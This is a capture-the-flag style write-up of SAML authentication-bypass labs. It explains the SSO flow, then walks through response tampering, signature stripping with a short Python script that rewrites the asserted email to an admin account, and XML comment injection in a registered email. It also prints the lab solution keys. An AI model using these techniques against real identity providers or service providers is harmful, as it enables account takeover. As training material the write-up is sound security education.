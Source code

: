 ## Auth Badge

### SAML Introduction

Security Assertion Markup Language (SAML) is used to share authentication and authorisation between parties. SAML is often used to provide Single Sign-On (SSO) between one or multiple Service Provider(s) (SP) and one IDentity Provider (IDP).

SAML flow
- The User-Agent (browser) tries to access the resource
- The Service Provider (SP) sends a redirect to the Identity Provider (IDP)
- The User-Agent follows the redirect an access the IDP. The request contains a SAMLRequest parameter.
- The IDP sends back a response with a SAMLResponse.
- The SAMLResponse is submitted by the User-Agent to the SP.
- The user is now logged in for the Service Provider and can access the resource.

Hacking steps
- Register and login.
- Try login with SAML.
- Intercept SAML login requests.
- At one point you will be redirect to a page with a form `<body onload="document.forms[0].submit();" style="visibility:hidden;">`
- Take the value in `<input type="hidden" name="SAMLResponse" id="SAMLResponse" value="{{here}}">` and decode it.
- Replace `abhaynayar@gmail.com` with `admin@libcurl.so`, encode it back and send with the intercepted request. 

```
You're logged in as admin@libcurl.so. Congratulations! You solved this challenge. The key is 053254f5-f4f9-4da8-9d96-f05ca74c293e
```

### SAML: Signature Stripping

Notes

- One of the common issues with protocol using signature to prevent tampering comes from the fact that the signature is only verified if it is present.
- In the SAML response remove the content of the `<ds:SignatureValue>` tag (only the content).
- For this type of modifications, you can just create a small script to automatically do the decoding, tampering and re-encoding.

saml-sign.py

```
#myfile.txt contains SAMLResponse
with open('myfile.txt', 'r') as f:
    text = f.read()

import base64
base64_message = text + '==='
base64_bytes = base64_message.encode('ascii')
message_bytes = base64.b64decode(base64_bytes)
message = message_bytes.decode('ascii')

import re
msg=re.sub(r'(<ds:SignatureValue>).*(</ds:SignatureValue>)', r'\1\2', message)
msg=re.sub(r'asdf@asdf.com',r'admin@libcurl.so', msg)
print(base64.b64encode(msg.encode()))
```

Solution

```
You're logged in as admin@libcurl.so. Congratulations! You solved this challenge. The key is 7fd24047-7ec7-4c60-87e8-3ba3a1bb9ae0
```

### SAML: Comment Injection

Notes

- Register as `admin<!--asdf-->@libcurl.so`
- Since the frontend doesn't allow `<` change email while intercepting through a proxy.
- Go to service provider and then login with SAML

```
You're logged in as admin@libcurl.so. Congratulations! You solved this challenge. The key is 67f7e04c-913c-408b-974a-2bca747cc65a
```

References

- https://duo.com/blog/duo-finds-saml-vulnerabilities-affecting-multiple-implementations

